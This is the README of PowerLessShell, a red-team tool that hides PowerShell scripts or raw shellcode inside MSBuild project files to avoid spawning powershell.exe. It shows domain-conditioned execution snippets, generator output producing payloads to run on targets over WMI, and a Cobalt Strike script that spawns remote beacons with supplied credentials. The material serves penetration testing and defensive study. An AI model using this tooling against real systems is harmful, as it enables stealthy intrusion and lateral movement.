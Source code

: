 # PowerLessShell

PowerLessShell rely on MSBuild.exe to remotely execute PowerShell scripts and commands without spawning powershell.exe. 
You can also execute raw shellcode using the same approach.

# MSBuild conditions 

MSBuild support condition that can be used to avoid running code if the condition is not met.

```
<Target Name="x" Condition="'$(USERDOMAIN)'=='RingZer0'">
```

The malicious code will only be executed if the current user domain is "RingZer0"

Condition supports several other formats that can be used to create more conditional execution check.

```
<Target Name="x" Condition="'$(registry:HKEY_LOCAL_MACHINE\blah@blah)'>='0'">
```

Property Functions also expose interesting data.

```
https://docs.microsoft.com/en-us/visualstudio/msbuild/property-functions
```

# Usage

Raw shellcode
```
$ python PowerLessShell.py


PowerLessShell - Remain Stealth
         More PowerShell Less Powershell.exe - Mr.Un1k0d3r RingZer0 Team
            ___
        .-"; ! ;"-.
      .'!  : | :  !`.
     /\  ! : ! : !  /\
    /\ |  ! :|: !  | /\
   (  \ \ ; :!: ; / /  )
  ( `. \ | !:|:! | / .' )
  (`. \ \ \!:|:!/ / / .')
   \ `.`.\ |!|! |/,'.' /
    `._`.\\!!!// .'_.'
       `.`.\|//.'.'
        |`._`n'_.'|
        `----^----"


(Set payload type 'powershell, shellcode')>>> shellcode

(Path to the raw shellcode file)>>> shellcode.raw

(Path for the generated MsBuild out file)>>> payload.csproj

(Set USERDOMAIN condition (Default ''))>>> RingZer0

(Use known process name to perform MsBuild renaming (Default: False))>>>

[+] payload.csproj was generated.
[+] payload.csproj.bat was generated.
[+] Run the command inside of payload.csproj.cmd on the target system using WMI.
```

Powershell
```
$ python PowerLessShell.py


PowerLessShell - Remain Stealth
         More PowerShell Less Powershell.exe - Mr.Un1k0d3r RingZer0 Team
            ___
        .-"; ! ;"-.
      .'!  : | :  !`.
     /\  ! : ! : !  /\
    /\ |  ! :|: !  | /\
   (  \ \ ; :!: ; / /  )
  ( `. \ | !:|:! | / .' )
  (`. \ \ \!:|:!/ / / .')
   \ `.`.\ |!|! |/,'.' /
    `._`.\\!!!// .'_.'
       `.`.\|//.'.'
        |`._`n'_.'|
        `----^----"


(Set payload type 'powershell, shellcode')>>> powershell

(Path to the PowerShell script)>>> payload.ps1

(Path for the generated MsBuild out file)>>> payload.csproj

(Set USERDOMAIN condition (Default ''))>>>

(Use known process name to perform MsBuild renaming (Default: False))>>>

[+] payload.csproj was generated.
[+] payload.csproj.bat was generated.
[+] Run the command inside of payload.csproj.cmd on the target system using WMI.
```

Inline command
```
python PowerLessShell.py powershell.ps1 output (optional shellcode, -knownprocess)


PowerLessShell - Remain Stealth
         More PowerShell Less Powershell.exe - Mr.Un1k0d3r RingZer0 Team
            ___
        .-"; ! ;"-.
      .'!  : | :  !`.
     /\  ! : ! : !  /\
    /\ |  ! :|: !  | /\
   (  \ \ ; :!: ; / /  )
  ( `. \ | !:|:! | / .' )
  (`. \ \ \!:|:!/ / / .')
   \ `.`.\ |!|! |/,'.' /
    `._`.\\!!!// .'_.'
       `.`.\|//.'.'
        |`._`n'_.'|
        `----^----"




[+] output was generated.
[+] output.bat was generated.
[+] Run the command inside of output.cmd on the target system using WMI.
```

# Example

The following example is running the RC4 RAT https://github.com/Mr-Un1k0d3r/RC4-PowerShell-RAT without running a single instance of PowerShell

![PowerLessShell](https://ringzer0team.com/powershellless.png)

# Cobalt Strike Aggressor script (wmi_msbuild.cna) 
By Alyssa (ramen0x3f) and MrT-F
### Set Up
* Either copy PowerLessShell folder to [cobalts working dir]/PowerLessShell or make note of path
* If you didn't copy it to the Cobalt directory: edit the $pls_path variable in this file to point to PowerLessShell
* Load script into Cobalt Strike

### Usage
```
check_msbuild -target TARGET   		Verify .NET 4.0.30319 is installed (should see "Status OK")
	[-user user] [-pass pass]		Windows 7 has .NET 4.0.30319 after 3 reboots and 4 Windows update cycles

rename_msbuild -target TARGET 		Copy MSBuild.exe. 
	-msbuild newname 
 	[-path C:\new\path] 		Default - C:\Users\Public\
	[-user domain\username]		Specifying user/pass spawns cmd on remote host.
 	[-pass password]			

wmi_msbuild -target TARGET 		 	Spawn new beacon. 
         -listener LISTENER
	[-payload new_file]		 	Default - [a-zA-Z].tmp
	[-directory new_dir]			Default - C:\Users\Public\
	[-msbuild alt_msbuild_location] 	
	[-user USERNAME] [-pass PASSWORD]	
	[-manualdelete]				Switch doesn't auto delete payload.
```
### OpSec Notes
Spawns cmd.exe on the target system if
* ManualDelete switch is not set
* rename_msbuild is run with a username/password specified

# Credit
Mr.Un1k0d3r RingZer0 Team 2017

